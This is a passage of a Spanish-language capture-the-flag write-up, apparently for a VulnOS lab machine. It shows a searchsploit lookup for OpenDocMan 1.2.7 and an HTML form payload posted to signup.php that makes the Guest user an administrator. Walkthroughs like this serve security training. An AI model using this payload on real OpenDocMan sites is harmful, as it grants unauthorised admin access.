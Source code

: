 Encuentran varias cosas pero la mayoría estan puestas ahí para hacernos perder el tiempo. Así que como me recibe un portal de una aplicación web llamada ``OpenDocman`` con número de versión y todo decido buscar dentro de **searchsploit**:

---

![img]({{ '/assets/images/Vulnos/opendocman_00.png' | relative_url }}){: .center-image }*(Portal de login)*

---

>**``searchsploit docman 1.2.7``**

---

```console
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
OpenDocMan 1.2.7 - Multiple Vulnerabilities                                  | exploits/php/webapps/32075.txt
----------------------------------------------------------------------------- ----------------------------------------
```
---

Buenisimo, existen dos vulnerabilidades que nos pueden servir. El primer método que use fue el que consiste en subir un ``html`` con el siguiente contenido:

```html
<form action="http://10.0.0.123/jabcd0cs/signup.php" method="post" name="main">
<input type="hidden" name="updateuser" value="1">
<input type="hidden" name="admin" value="1">
<input type="hidden" name="id" value="2">
<input type="submit" name="login" value="Run">
</form>
```

Este código una vez ejecutado le otorga privilegios de admin al usuario logueado que en este caso es llama **Guest**:

---

![img]({{ '/assets/images/Vulnos/opendocman_01.png' | relative_url }}){: .center-image }*(Usuario logueado)*

---

![img]({{ '/assets/images/Vulnos/opendocman_04.png' | relative_url }}){: .center-image }*(Upload de archivo)*

---

Una vez que se sube el archivo el portal da la opción de visualizarlo, al hacerlo hay un botón llamado **RUN** y al correrlo se presenta un error pero si se accede a la configuración del usuario **Guest** se puede ver que ya es administrador del sitio.
